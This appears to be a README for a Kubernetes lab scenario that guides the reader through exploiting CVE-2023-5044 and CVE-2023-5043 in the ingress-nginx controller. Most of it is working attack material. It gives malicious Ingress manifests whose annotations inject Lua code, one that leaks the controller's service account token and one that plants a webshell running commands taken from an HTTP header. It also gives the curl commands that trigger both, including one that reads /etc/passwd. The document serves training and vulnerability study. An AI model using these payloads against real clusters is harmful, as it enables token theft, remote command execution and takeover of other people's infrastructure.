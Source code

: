 # Abusing CVE-2023-5044 and CVE-2023-5043

This scenario prepare the environment so you can exploit CVE-2023-5044 and CVE-2023-5043. These exploits abuse some of the Kubernetes Nginx ingress controller features to inject code using annotations, these vulnerabilities were fixed in the 1.9.0 version.

The ingress controller is installed as a NodePort service (To avoid the need of an external load balancer), its ports are:
- 30080 for HTTP
- 30443 for HTTPS

A pod you can SSH into is provided, the service account used by the pod has limited privileges but are enough to exploit the vulnerabilities. The idea is to emulate a scenario where an application that manage the Ingress objects is compromised:

```bash
ssh pwned@10.10.20.2 -p 30023
```

The service account has only **read access to services and pods but full access to ingress objects**.

Once connected, prepare the `kubectl` binary so you can make request to the Kubernetes API in an easy way:

```bash
curl -LO "https://dl.k8s.io/release/$(curl -L -s https://dl.k8s.io/release/stable.txt)/bin/linux/amd64/kubectl"
chmod +x kubectl
```

If you did everything right, this command should return all the pods in the cluster:

```bash
./kubectl --token $(cat /var/run/secrets/kubernetes.io/serviceaccount/token) --server https://10.10.20.2:6443 --insecure-skip-tls-verify=true get pods -A
```

From here, you can continue reading for a guided exploitation or research for yourself. At the end of this document you can find some really interesting references to understand the vulnerabilities.

# CVE-2023-5044

The provided PoC will leak the Nginx controller service account token instead of provide a webshell. This token has access to a lot of resources including secrets so in most cases you may abuse this to escalate and get full access to the cluster.

First deploy this malicious Ingress copying it to a file and using:

```bash
./kubectl --token $(cat /var/run/secrets/kubernetes.io/serviceaccount/token) --server https://10.10.20.2:6443 --insecure-skip-tls-verify=true apply -f ingress.yaml
```

```yaml
apiVersion: networking.k8s.io/v1
kind: Ingress
metadata:
  name: cve-2023-5044
  namespace: cve-2023-5044-and-cve-2023-5043
  annotations:
    nginx.ingress.kubernetes.io/rewrite-target: /$2
    nginx.ingress.kubernetes.io/permanent-redirect: https://www.google.com;}location ~* "^/exploit(/|$)(.*)" {content_by_lua 'ngx.say(io.popen("cat /var/run/secrets/kubernetes.io/serviceaccount/token"):read("*a"))';}location ~* "^/exploit(/|$)(.*)" { content_by_lua 'os.execute("touch /you")'
spec:
  rules:
  - http:
      paths:
      - pathType: Prefix
        path: /foo(/|$)(.*)
        backend:
          service:
            name: foo-service
            port:
              number: 5678
      - pathType: Prefix
        path: /test(/|$)(.*)
        backend:
          service:
            name: test-service
            port:
              number: 5678
```

Once the above is done, execute this to get the Nginx controller service account token:

```bash
curl http://10.10.20.2:30080/exploit
```

# CVE-2023-5043:

In order for this to work the `allow-snippet-annotations` option needs to be set to `true`. This option was defaulted to `true` until v1.9.0, what means that previous versions are mostly vulnerable if the administrator did not mitigated the problem and later versions could be vulnerable if the `allow-snippet-annotations` was re-enabled for some reason. Also, if you have enough privileges to play with the Nginx controller ConfigMap, you can enable the `allow-snippet-annotations` option yourself!

The exploitation of this vulnerability is pretty similar to CVE-2023-5044. In this case, the PoC provided will give you a webshell. Deploy this malicious Ingress copying it to a file and using:

```bash
./kubectl --token $(cat /var/run/secrets/kubernetes.io/serviceaccount/token) --server https://10.10.20.2:6443 --insecure-skip-tls-verify=true apply -f ingress.yaml
```

```yaml
apiVersion: networking.k8s.io/v1
kind: Ingress
metadata:
  name: cve-2023-5043
  namespace: cve-2023-5044-and-cve-2023-5043
  annotations:
    nginx.ingress.kubernetes.io/configuration-snippet: |
      more_set_headers "pwned"
            proxy_pass http://upstream_balancer;
                                proxy_redirect                          off;
        }
        location /pwned/ { content_by_lua_block { local rsfile = io.popen(ngx.req.get_headers()["cmd"]);local rschar = rsfile:read("*all");ngx.say(rschar); } } location /fs/{
spec:
  rules:
  - host: pwned.me
    http:
      paths:
      - path: /
        pathType: Prefix
        backend:
          service:
            name: test-service
            port:
              number: 5678
```

Now you can start executing commands in the Nginx controller pod. The example command will return the contents of the `/etc/passwd` file:

```bash
curl -v -H 'Host: pwned.me' -H "cmd: cat /etc/passwd" http://10.10.20.2:30080/pwned/
```

## References

- https://kubernetes.io/docs/concepts/services-networking/ingress/
- https://www.covertswarm.com/post/exploiting-cve-2023-5044-and-cve-2023-5043-to-overtake-a-kubernetes-cluster
- https://kubernetes.github.io/ingress-nginx/user-guide/nginx-configuration/configmap/#allow-snippet-annotations
- https://github.com/r0binak/CVE-2023-5044
- https://github.com/KubernetesBachelor/CVE-2023-5044
- https://github.com/r0binak/CVE-2023-5043
- https://www.armosec.io/blog/cve-2023-5043-nginx-ingress/
